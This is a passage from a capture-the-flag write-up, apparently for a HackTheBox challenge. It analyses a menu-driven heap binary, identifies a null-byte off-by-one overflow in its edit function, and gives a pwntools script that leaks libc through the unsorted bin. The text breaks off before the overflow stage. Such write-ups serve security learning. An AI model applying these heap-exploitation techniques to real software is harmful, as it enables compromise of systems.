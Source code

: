 # Bon-nie-appetit
> Write-up author: jon-brandy

## DESCRIPTION:

<p align="justify">

After the successful hijacking of the D12 spaceship during the Space Pirate mission, 
the crew managed to place a signal transmitter on a vending machine that the Golden Fang's members are using to order 
food from the Supplier Spacecraft of Draeger. Golden Fang's crew's favorite food contains a secret ingredient called "Little Green People0," 
which we do not have further info about. The signal passes through many satellites before it reaches the Supplier, 
so it won't be easy to track the device and the leaked signal. Can you take advantage of it and get control of the Supplier?

</p>

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/52513364-507f-4862-b911-20fd90a244d5)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cc12335-b63f-4968-9c1e-d12c16e242aa)


2. Decompiling the binary and reviewing the main() function, we can identified that the program has 5 menus.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/468eeb58-9bfa-4497-96ae-95ba613b8973)

#### MENUS:

```
1. Create chunks.
2. Show chunks.
3. Edit chunks.
4. Delete chunks.
5. Terminate program.
```

3. Reviewing the new_order() function, looks no bug resides here. It validates the maximum orders we can allocate is only 20 orders.
4. It accepts 2 datas, those are **size** and **contents**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7cc5f713-f55b-41e9-bfbf-0b224d948926)


5. Reviewing the show_order() function, seems there is no bug again. It accepts index and shows the chunk's content at that index.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/eb40e0bd-0128-478a-86e7-1cff60abc231)


6. Reviewing the edit_order() function, we found a bug. Noticed it uses **strlen()** as the length of our input.
7. Remembering in C there is a NULL BYTE data, hence it's introduces a heap overflow using `OFF-ONE-BYTE` vulnerability.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d6281b6-0ad8-4a3d-bd92-354364eca94b)


#### NOTES:

```
To trigger the overflow, we just need to fill the content to the fullest of it's size. For example if we edit the size to 0x60,
then we fill the content's up to 0x60, so there is an overflow because of the null-byte after it.

Remembering heap chunks are stored adjacent, if overflow occurs then current chunks will take the next chunk's
size into account. (we can creating a fake size field).
```

8. Next, reviewing the delete_order() function, seems no use after free bug. The freed chunks are set to NULL.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cd398815-7ced-4ef7-96f8-89df916b8f3d)


9. Great! Seems our interest should be at **edit_order()**.
10. Let's leak a libc first by allocate size outside of fastbin range. When the chunk freed, it shall resides at the unsorted bin.
11. To make sure our chunk falls at unsortedbin, let's allocate size in range of largebins.

### LEAK LIBC ADDRESS IN UNSORTED BIN

- To be able for libc address disclosed at the unsorted bins we need to allocate sizes outside the fastbin ranges.
- The simplest method to make sure the chunks are stored in unsorted bins after freed, simply allocate sizes of largebins.
- BUT remember to allocate another chunk after it to prevent consolidation with the top chunk.

> FLOW

```
allocate 0x428 (so the size field is 0x430)
allocate 24 (just to prevent consolidation with the top chunk)
free index 0 (at this phase, libc is shown at the unsorted bins)
free index 1
allocate 0x428
show contents at index 0
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e25ce249-262d-4a0d-8da5-9f8e2de2d456)


12. Great! Now let's unpack and calculate the libc base using **vmmap**.

> SCRIPT

```py
from pwn import *
import os

os.system('clear')

exe = './bon-nie-appetit'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def make(size, data):
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(size))
    sh.sendlineafter(b':', data)

def show(index):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', str(index))

def edit(index, data):
    sh.sendlineafter(b'>', b'3')
    sh.sendlineafter(b':', str(index))
    sh.sendlineafter(b':', data)

def delete(index):
    sh.sendlineafter(b'>', b'4')
    sh.sendlineafter(b':', str(index))

def finalize():
    sh.sendlineafter(b'>', b'5') 

sh = start()

# leak libc
make(0x428, b'A') # size field 0x430
make(24, b'B') 
delete(0) # delete chunk idx 0
delete(1) # delete chunk idx 1
make(0x428, b'') 
show(0)

sh.recvuntil(b"=> ")
get = unpack(sh.recv(6) + b'\x00' * 2)
log.info(f'libc leak --> {hex(get)}')

libc.address = get - 4111370
success(f'LIBC BASE --> {hex(libc.address)}')

gdb.attach(sh)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fda5a6fd-8953-4acf-a143-eb21162bfe8e)


13. Nice! Now let's move our interest to the **Off-One-Byte (OOB)** bug we found earlier.
14. To make it works, let's delete the chunk at index 0 first, then starts allocating 3 chunks adjacently.
15. All of this 
